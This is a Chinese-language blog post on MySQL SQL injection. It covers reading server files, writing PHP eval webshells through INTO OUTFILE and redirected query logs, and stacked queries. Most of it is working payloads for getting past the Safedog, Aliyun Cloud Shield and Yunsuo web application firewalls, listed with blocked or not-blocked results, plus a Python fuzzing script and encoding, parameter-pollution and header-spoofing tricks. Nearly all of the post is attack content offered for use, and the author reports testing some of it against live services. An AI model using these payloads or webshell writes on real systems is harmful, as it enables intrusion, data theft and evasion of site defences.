windows 系统在 my.ini 的[mysqld]下面加上 secure_file_priv = ，linux 的在 /etc/my.cnf 同时读写权限问题就不用说了。
mysql> show global variables like '%secure%';
+------------------+-------+
| Variable_name | Value |
+------------------+-------+
| secure_auth | OFF |
| secure_file_priv | |
+------------------+-------+
2 rows in set (0.00 sec)
0x01 读文件
可以把文件 hex 一下输出，文件名也是支持 hex 和 char 的
mysql> select * from admin union select 1,hex(load_file('D:\\1.txt')),3;
+------+------------------------+----------+
| id | username | password |
+------+------------------------+----------+
| 3 | bdmin | fdmin |
| 2 | admin | ddmin |
| 1 | cdmin | bdmin |
| 1 | 617574686F72A3BA343034 | 3 |
+------+------------------------+----------+
4 rows in set (0.02 sec)
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,hex(load_file(0x463A5C5C312E747874)),3-- +
当然你加入你进了 phpmyadmin 类似的平台 可以执行 sql 语句，你可以选择把导入的数据插入表中
同时支持导入的函数还有 load data infile
create table test(test text);
insert into test(test) values (load_file('D:\\1.txt'));
select * from test;
如果能读文件在渗透测试中往往很有用，可以读取配置文件，系统问题等等关键信息，在我以前的一次意淫中，进入一个后台功能全被限制死了，但是可以执行导入，通过一个编辑器的目录遍历，发现某文件时间不一致，读取出来发现是 webshell，应该是某黑客进去之后做的手脚
0x02 写文件
1.
写文件我们一般用到 dumpfile与outfile 她们其实是有区别
outfile 会在行末写入新行，而且会转义换行符
dumpfile 能导出一个完整的文件，不会有任何转义 所以我们 udf 提取一般用的 dumpfile
mysql> select * from admin where id =1 union select 1,'<?php eval($_POST[cmd]);?>',3 into outfile 'G:\\test.txt';
Query OK, 2 rows affected (0.00 sec)
2.
后来大佬们找到一种方法通过日志来写 shell 解决这个史诗级难题，但是需要能直接执行 sql 语句利用有限
set global general_log=on;
set global general_log_file='D://404.php';
select '<?php eval($_POST['404']) ?>';
通过把日志路径更改 ，让查询的日志保存过去，还有一种慢日志，原理一样
mysql> show global variables like '%query_log%'
-> ;
+---------------------+-------------------------------------------------------------+
| Variable_name | Value |
+---------------------+-------------------------------------------------------------+
| slow_query_log | OFF |
| slow_query_log_file | D:\phpstudy\PHPTutorial\MySQL\data\LAPTOP-M4APUKKN-slow.log |
+---------------------+-------------------------------------------------------------+
2 rows in set (0.00 sec)
set global slow_query_log=1;
set global slow_query_log_file='D://404.php'
select '<?php eval($_POST['404']) ?>' or sleep(15);
0x03 堆叠查询
mysql 是支持堆叠查询的用; 分割语句,但是 php 原生的连接方式不支持，但是使用 PDO,mysqli_multi_query()等等是支持多语句的，在我们使用堆叠查询的时候基本是没有回显的，而且其实很难遇到这种环境。
mysql> select * from admin where id =1;select user();
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | cdmin | bdmin |
+------+----------+----------+
1 row in set (0.00 sec)
+----------------+
| user() |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
这里讲在一起就是因为，假如支持堆叠查询还可以用日志来写 shell。
http://192.168.59.129/Less-38/?id=1%27;set global general_log=on;set global general_log_file='C://phpstudy//404.php';--+
http://192.168.59.129/Less-38/?id=1%27;select '<?php eval($_POST[404]) ?>';--+
0x00 联合注入过狗
其实我们过这些 waf 就是个正则的绕过，因为这种通用型的 waf，需要考虑到用户体验，他不能出现什么东西就直接拦截，比正则过滤的一些好绕一点，如何成功绕过我们需要具备对 mysql 各个函数、语法、特性的熟悉，然后通过不断的 fuzz 来测试出我们想要的 payload 的
每个狗的版本不同，他的正则也是不同的所以有的 payload 在最新版可以用，在老版本就可能用不上，当你的知识量有一定的积累后，绕过 waf 或许就很简单，
如何快速的提升自己的这些知识，多看文章，多看官方手册。
0x01 探索 and
实验环境 ： win2003 apache 安全狗 4.0.23957
首先我们来探索简单的语句 and 1=1
and 1 拦截
and '1' 拦截
and a 不拦截
and 'a' 拦截
and ! 不拦截
and 1+1 拦截
and 1+a 拦截
and hex(1) 不拦截
通过测试我们发现当 and 后面跟上 数字型和字符型时他会给我们拦截掉 ，其实我们在安全狗的规则里面可以看到他拦截 and 和 or 所以我们有 2 个思路
用其他字符替换 and 或者 or
带入的不是字符串和数字型，带入一个特殊符号
针对第一种我们可以去看看运算符号 随便找到几个| ^ xor & / * && || 等等还有很多
mysql> select '1'|1;
+-------+
| '1'|1 |
+-------+
| 1 |
+-------+
1 row in set (0.00 sec)
mysql> select '1'&1;
+-------+
| '1'&1 |
+-------+
| 1 |
+-------+
1 row in set (0.00 sec)
mysql> select '1'^1;
+-------+
| '1'^1 |
+-------+
| 0 |
+-------+
1 row in set (0.00 sec)
知道这个了我们带入我们的语法就很简单了 通过运算符来改变 ID 的值 查看页面是否变化 这是可行的。
mysql> select * from admin where id ='1'|2-- +';
-> ;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 3 | bdmin | fdmin |
+------+----------+----------+
1 row in set (0.00 sec)
mysql> select * from admin where id ='1'|1-- +';
-> ;
+------+----------+----------+
| id | username | password |
+------+----------+----------+
| 1 | cdmin | bdmin |
+------+----------+----------+
1 row in set (0.00 sec)
经过测试你还会发现他的正则不全&& true 也是可以的。
那我们可以不可以正面刚and or 呢，当然也是可行的，前面我们测试过 and hex(1) 不拦截其实已经可以拿来判断了，但是我们还要深入的探究
and hex(1)= 也是不拦截的 但是后面加入字符型和数字型他又开始拦截，所以我们可以猜测 他判断 = 左右的字符类型，经过测试就能出来很多我们想要的
and ~1>1
and hex(1)>-1
and hex(1)>~1
再深入探究 你就会发现 安全狗他只在乎 数字型的正数，而不在乎负数，也就是and -2<-1 就能过狗，也可能是- 绕过了他的正则
0x02 探索 union select
- 内联注释绕过
union 不拦截
select 不拦截
union select 拦截
union 各种字符 select 拦截
union/*select*/ 不拦截
通过简单的测试我们发现安全狗还是认识我们我们的注释的符号的,所以我们就需要通过这个来绕过我们的安全狗，前面符号一章我讲过注释符号的几种，我们主要使用的是
内联注释 /*!/*!*/
http://192.168.59.129/Less-1/?id=1' union/*!/*!50000select*/ 1,2,3--+ 拦截
http://192.168.59.129/Less-1/?id=1' union/*!/*!5select*/ 1,2,3--+ 不拦截
为什么不拦截 ，因为 50000 是他的版本号，你多一位少一位语句是不能能正常执行的，所以他就放行了，那么我们可以用 burp 来遍历这个值呢，结果的确是我们想要的
http://192.168.59.129/Less-1/?id=1' union/*!/*!11440select*/ 1,2,3--+ 不拦截
http://192.168.59.129/Less-1/?id=1' union/*!11441/*!11440select*/ 1,2,3--+ 不拦截
http://192.168.59.129/Less-1/?id=1' union/*!11440select*/ 1,2,3--+ 不拦截
http://192.168.59.129/Less-1/?id=-1' union/*!11440/**/%0aselect*/ 1,2,3--+ 不拦截
这句 bypass 的核心就在于版本号,然后你就感觉 fuzz 了千种姿势,但是核心还是这个，最简也是这个,万变不离其宗。
2. 注释绕过
联想注释我们还知道有 – # 那么他们可以利用吗，当然是肯定的，其实很久以前就有大佬发过这个语句了是union %23%0aselect 因为这些都是单行注释，而%0a 是换行的 url 编码,大家可以换行后用 url 编码看看，就是这个，
但是这样已经被加入规则库了，如何绕过呢 非常简单 当然这是个 fuzz 的过程，其实我只想写出思路，而不是直接给 payload。
union %23%0aselect 拦截
union %23select 拦截
union a%23 select 不拦截
union all%23 select 不拦截
union all%23%0a select 不拦截
union %23%0aall select 不拦截
有时候 fuzz 右边不行 不如看看左边 为什么可以加 all 这个你就得看看 mysql 手册了，其实测试到最后发现%23%0a 中间不能加字符否则会被拦截。
- – 注释绕过
– 其实大佬们也一样很早说了不过最初的姿势是 -- %0a 当然已经被加入豪华午餐了，所以我们来测试
union all -- %0a select 拦截
union -- ()%0a select 拦截
union -- 1%0a select 不拦截
union -- hex()%0a select 不拦截
懂我意思吧，怎么绕出来，发挥你的现象，总之俩开花。
- 老生常谈 hpp 被人遗忘的手法
前面说过 /**/ 里面的内容安全狗基本不管了，那么我们用 hpp 参数污染来绕过就很简单了
照成这个手法的原因是 web server 对参数的解析问题 在 php/apache 中 它总解析最后一个 id
http://192.168.59.129/Less-1/?id=-1' /*&id='union select 1,user(),3 -- +*/
0x03 注入
既然绕过了 union select 那么注入就简单了 首先来看个 user() ,因为它是被拦截的所以我们需要简单的绕过它
user() 拦截
user/**/() 拦截
user/**/(/**/) 拦截
hex(user/**/(/**/)) 不拦截
接着就是爆库名
union -- hex()%0a select 1,schema_name,3 from `information_schema`.schemata limit 1,1
接下来的流传都差不多了 关键点就是在于 from 后面这块 后面的我以这个 information_schema.schemata 为例展示几种思路可能有的不能过
`information_schema`.schemata
`information_schema`.`schemata`
information_schema.`schemata`
(information_schema.schemata)
information_schema/**/.schemata
0x04 文末
这么多手法又有多少人认真看了呢，认真去试过，探索。
0x00 延时过狗
盲注过狗相对联合注入来说，感觉上是更简单，我们先来试试时间盲注把，比布尔稍稍灵活一点
if(1,1,1) 不拦截
a if(1,1,1) 不拦截
and if(1,1,1) 拦截
| if(1,1,1) 不拦截
|| if(1,1,1) 拦截
&& if(1,1,1) 拦截
/*!and*/ if(1,1,1) 拦截
/*!11440and*/ if(1,1,1) 不拦截
andaif(1,1,1) 不拦截
通过上面的测试我们其实可以很简单的看出来 他是拦截的 xx if 这个语句，其中 xx 为 and 和 or 这 2 个词有点敏感，但是绕过还是可以的
通过上一章的测试语句 发现版本为 11440 的 内联注释直接放行，咳咳这样后面就直接注入，感觉并不是我们这一章想要的，我们这一章来试试不用内联注释内不内绕过
查阅乌云知识库发现一个小知识点 and!!!1=1 and 后面可以接上奇数个特殊的字符包括不限于! ~ & - 其他还可以自己测试 那么我们的 payload 就能构造出来了
and!!!if((substr((select hex(user/**/(/*!*/))),1,1)>1),sleep/**/(/*!5*/),1)
系统函数怎绕过我就不多说了每一张就有
0x01 布尔过狗
布尔注入过狗只能说是相对来说最简单的吧，因为可以不使用条件语句，少了一个绕过点
and!!!substr((select unhex(hex(user/**/(/*!*/)))),1,1)='r' 拦截
and!!!substr((select unhex(hex(user/**/(/*!*/)))),1,1)=r 不拦截
and!!!substr((select unhex(hex(user/**/(/*!*/)))),1,1)=1 不拦截
上面忘了说的就是这个点 =r 这里 不能使用引号，那绕过他就很简单了 什么 HEX ASCII 都行,通过测试发现 使用布尔盲注 他的过滤真的很差，我们试试 把 and 换成&&
and substr((select hex(user/**/(/*!*/))),1,1)>1 拦截
/*!and*/ substr((select hex(user/**/(/*!*/))),1,1)>1 拦截
%26%26 substr((select hex(user/**/(/*!*/))),1,1)>1 拦截
/*!%26%26*/ substr((select hex(user/**/(/*!*/))),1,1)>1 不拦截
0x02 文末
自己不测试 永远发现不了新东西
0x00 探索报错
报错注入的绕过，感觉很少人提过，不少人绕过也有一定的误区吧，这里提一提
updatexml 不拦截
updatexml(1,2,3 不拦截
updatexml(1,2) 不拦截
updatexml(1,2,) 不拦截
updatexml(,2,1) 不拦截
updatexml(1,2,!) 拦截
updatexml(1,2,%) 拦截
updatexml(,2,1,hex()) 拦截
and updatexml(1,2,3 不拦截
updatexml(1,2,3) 拦截
and updatexml(1,2,3) 拦截
到这里我们 大概知道了，他的判断 updatexml() 的完整性 ，当里面按逗号分割出现出现3个字符时，就会拦截，当然有个别特殊的字符串他没过滤
这样我们在括号里面做手脚的可能性很渺茫，那么我们还有 什么方法呢， 可以尝试把 updatexml() 函数分开，或者给updatexml 加个外套。
/*updatexml*/(1,1,1) 不拦截
/*!updatexml*/(1,1,1) 拦截
/*!5000updatexml*/(1,1,1) 不拦截
/*!11440updatexml*/(1,1,1) 不拦截
看来 updatexml() 函数我们已经绕过了 需要前面加个 运算符号了
and /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 拦截
or /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 拦截
/*!and*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 拦截
/*!%26%26*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截
/*!||*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截
/*!xor*/ /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截
| /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截
xor /*!11440updatexml*/(1,(select hex(user/**/(/**/))),1) 不拦截
那么有没有什么可以包裹他的呢，其实我们查看mysql手册找到这么一个符号 开单引号 ASCII 96
http://192.168.130.135/Less-1/?id=1' and `updatexml`(1,(select hex(user/**/(/**/))),1)-- +
那么我们写个小脚本跑看看 还有没有
import requests
import urllib
for i in range(0,177):
url = r"http://192.168.130.135/Less-1/?id=1%27%20xor%20{fuzz}updatexml{fuzz}(1,(select hex(user/**/(/**/))),1)--%20+".format(fuzz=urllib.quote(chr(i)))
req = requests.get(url)
if "F6F7" in req.text:
print len(req.text),i,urllib.quote(chr(i))
发现确实没有其他利用的了，当然你用前面的注释方法也是可行的
0x01 文末
脚本只是你的一个思路衍生
0x00 矛与云盾过狗
由于没有阿里云盾的试验环境，以下操作都在线上测试，总的来说阿里云还是比较不好绕的，因为对于/**/ /*!*/ 他是强过滤，根本不能用，我们先来测试简单语句
and 1=1 拦截
&& 1=1 不拦截
or 1=1 拦截
|| 1=1 不拦截
and 1 不拦截
and 1= 拦截
and = 拦截
and 1> 不拦截
and 1>1 拦截
and 1>a 拦截
and 1>! 不拦截
通过简单的测试我们发现，他对 && || 过滤还是不是很严 ，and的话是不让用直接接入=号的，综合一下前面的知识,我们可以想到几个方法。
不用and 和 or
用and 在两边接入干扰字符
and ~1=1 不拦截
and!!!1=1 不拦截
and 1-1 不拦截
and true 不拦截
and 1 不拦截
0x01 注入
- 盲注
and substr(1,1,1)='r' 拦截
&& substr(1,1,1)='r' 不拦截
and!!!substr(1,1,1)='r' 不拦截
and!!!substr((select),1,1)='r' 不拦截
and!!!substr((select a()),1,1)='r' 不拦截
and!!!substr((select user()),1,1)='r' 拦截
可以知道select 后面加入 常见函数会被拦截，所以我们可以 使用一定的东西来分割他 但是/**/ 和/*!*/ 是不能用的，所以最后想到 就是 注释符号
and!!!substr((select user-- (1)%0a()),1,1)='r' 不拦截 edu
测试一会儿发现他对某些关键词拦截还是很严格的，绕过应该是可以的，一些生僻的函数加点东西 他就不会拦截
and!!!substr((select @@`datadir`),1,1)='D'-- + 拦截 yq
and!!!substr((select{x @@datadir}),1,1)='D' 不拦截
and!!!substr((select{x @@`datadir`}),1,1)='D'-- + 不拦截
这里比较难的是 from的绕过，虽然最后绕过了，但是感觉不是很完美
from 不拦截
from user 不拦截
select from user 拦截 edu
select all from user 拦截
select from(user) 拦截
select from{user} 拦截
select from[user] 不拦截
select from [user] 拦截
最后想到web+mysql好像编码的问题 也能让解析我们的中文字符 但是这种对环境要求比较大
and!!!substr((select{x username}from（users） limit 0,1),1,1)='D'
http://127.0.0.1/sqli/Less-1/?id=1%27 and!!!substr((select username from【users】 limit 0,1),3,1)='m'-- +
- 联合
前面测试发现 内联注释不能使用了，只能靠括号之类的来干扰了
union select 不拦截
union select 1 拦截
union(select 1) 不拦截
union(select 1,2,3) 不拦截
- 报错
and `updatexml`(1,select `user`%0a(),1) 

阿里云的需要深度探索才能绕过，规则还是比较困难的，相对于安全狗,因为edu 和yq的云盾好像版本不同，绕过的手法也要不一样,具体思路就是这样的,由于我直接在官网测试的，所以可能有点问题。
我与云锁有个约会
0x00 简单and探索
首先都是来测试下 and的绕过
and 不拦截
and 1 拦截
and a 不拦截
and 'a' 不拦截
and 'a' > < = 拦截
差不多知道他的规则了 绕过来就很简单了
mysql> select 'a'-0;
+-------+
| 'a'-0 |
+-------+
| 0 |
+-------+
1 row in set, 1 warning (0.00 sec)
mysql> select 'a'+1;
+-------+
| 'a'+1 |
+-------+
| 1 |
+-------+
1 row in set, 1 warning (0.00 sec)
mysql> select 'a'|1;
+-------+
| 'a'|1 |
+-------+
| 1 |
+-------+
1 row in set, 1 warning (0.00 sec)
and 'a'-0 不拦截
and 'a'|1 不拦截
0x01 我与云锁有个约会
早期云锁绕过非常简单，只需要在post 和 get 同时提交数据 他会只检测post的内容，很轻松的绕过，但是更新后云锁也是很多人谈之色变的。
以下内容都是把云锁的增强型防护开启
- 简单的布尔盲注
and strcmp((substr((select user/**/()),2,1)),'0')
生僻函数绕过 这里比较难的点其实也在from，但是比云盾好点，毕竟可以用到注释
http://192.168.130.135/Less-1/?id=1' and strcmp((substr((select from),2,1)),'0')-- + 拦截
http://192.168.130.135/Less-1/?id=1' and strcmp((substr((select /*from*/),2,1)),'0')-- + 不拦截
看到这两条语句其实我们可以清楚的知道/**/ 是我们可以利用的点,结合前面的知识我们只需要把我们的from放在注释里面然后把注释不起作用就OK
http://192.168.130.135/Less-1/?id=1' and strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')-- +

- 时间盲注
时间盲注换换就行
http://192.168.130.135/Less-1/?id=1' and if((strcmp((substr((select password/* -- + %0afrom/**/users limit 0,1),1,1)),'D')),1,sleep(5))-- +
- 报错注入
http://192.168.130.135/Less-1/?id=1' and `updatexml`(1,concat(0x7e,(select user/**/()),0x7e),1)/**/-- +
其他的自己探索吧,bypass也就一个知识量和思路的结合

0x00 拓展Bypass的常用思路
WAF的绕过我们无非就是利用WEB程序缺陷，容器特性,网络协议，数据库特性来组合利用绕过，从用户发出请求到数据库的每一点，寻找突破口。
0x01 常见的手段
HTTP协议
大小混写
替换
使用特殊字符
使用编码
等价替换
容器特性
白名单
缓冲溢出
等等
HTTP协议
HTTP协议中有很多功能，一般来说我们可以用到的就是编码功能，后来有大佬发现了分块传入来绕过WAF，具体大家可以百度看看，大概http协议我们可以总结如下。
构造畸形数据包
编码
分块
数据包溢出
可能有些表述有误，但是大概意思如此，构造畸形数据包的原理是http协议是有一定的容错性的，我们也常用这个容错性去绕过上传。编码绕过的原理也是利用程序解密，而waf识别不了，数据包溢出则是数据包过大waf自动丢弃不识别
大小混写
大小混写一般是绕过一些简单的正则 ，对大小写敏感的。
UnIon SlEct
替换
这种一般是因为正则吧我们的关键词给替换删除了，但是没有进行多次匹配导致绕过
ununionion seselectlect
un/**/ion se/**/lect
特殊字符
特殊符号也多是数据库的特性，利用数据库可以使用多种符号来绕过，多种的运算符
`updatexml`
and!!!1=1
/**/
/*!50000*/
使用编码
这里和http协议差不多，多重编码等等，url编码会自己解码一次，但是有的程序他可以自己多次解密,那么我们就可以拿来利用
还有的程序参数他是支持base64的 那么我们的payload就可以编码绕过了
= -> %3D ->%25%33%44
and 1=1 -> YW5kIDE9MQ==
等价替换
mysql众多的函数也我们的bypass带来了很对便利，比如一个分割字符串的函数都是几个，倘若被过滤一个可以换成其他的
substr(version(),1,1)
Substring(version(),1,1)
Left(version(),1)
容器特性
- iis
容器的特性给我们绕过非常的有帮助，感谢那些善于发现的师傅们。
iis+asp 的%特性：当传入的 s%e%l%e%c%t 函数被%分割时，解析出来还是select
iis+asp 的unicode特性 ： iis支持Unicode的解析 我们传入s%u0065lect解析为select
+--------------------------------------------------------------------+
| Keywords | WAF | ASP/ASP.NET |
+--------------------------------------------------------------------+
| sele%ct * fr%om.. | sele%ct * fr%om.. | select * from.. |
| ;dr%op ta%ble xxx | ;dr%op ta%ble xxx | ;drop table xxx |
| <scr%ipt> | <scr%ipt> | <script> |
| <if%rame> | <if%rame> | <iframe> |
+--------------------------------------------------------------------+
- hpp
hpp参数污染，前面我们绕过安全狗用到过，不同容器对我们传入的值解析顺序不同，这也是我们可以利用的
php+apache &id=1&id=2 他只解析最后一个
+------------------------------------------------------------------+
| Web Server | Parameter Interpretation | Example |
+------------------------------------------------------------------+
| ASP.NET/IIS | Concatenation by comma | par1=val1,val2 |
| ASP/IIS | Concatenation by comma | par1=val1,val2 |
| PHP/Apache | The last param is resulting | par1=val2 |
| JSP/Tomcat | The first param is resulting | par1=val1 |
| Perl/Apache | The first param is resulting | par1=val1 |
| DBMan | Concatenation by two tildes | par1=val1~~val2 |
+------------------------------------------------------------------+
- HTTP Parameter Contamination
不同的容器他会对我们的参数带入的一些特殊字符解析成不同的东西，比如
+-----------------------------------------------------------+
| Query String | Web Servers response / GET values |
+-----------------------------------------------------------+
| | Apache/2.2.16, PHP/5.3.3 | IIS6/ASP |
+-----------------------------------------------------------+
| ?test[1=2 | test_1=2 | test[1=2 |
| ?test=% | test=% | test= |
| ?test%00=1 | test=1 | test=1 |
| ?test=1%001 | NULL | test=1 |
| ?test+d=1+2 | test_d=1 2 | test d=1 2 |
+-----------------------------------------------------------+
白名单
有的程序他会对本地ip不拦截，同时他的host使用X-Forwarded-For 等来获取
X-Forwarded-For:127.0.0.1
缓冲溢出
waf他处理数据包的大小有限，早期安全狗你提交过长url会直接奔溃
?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
参考文章
Obfuscate and Bypass ： https://www.exploit-db.com/papers/17934
9 ways to bypass Web Application Firewall：https://www.digitalmunition.me/2018/02/sql-injection-9-ways-bypass-web-application-firewall/
0x02 文末
bypass不要局限与一种，多种组合才能最大利用，你需要了解mysql的语法，特殊的符号，特殊的写法，FUZZ他可以容错的地方

- 本文链接：https://self-ferry.github.io/2020/12/07/%E5%86%8D%E5%AD%A6SQLinjection/
- 版权声明：本博客所有文章除特别声明外，均默认采用 许可协议。
若没有本文 Issue，您可以使用 Comment 模版新建。
GitHub Issues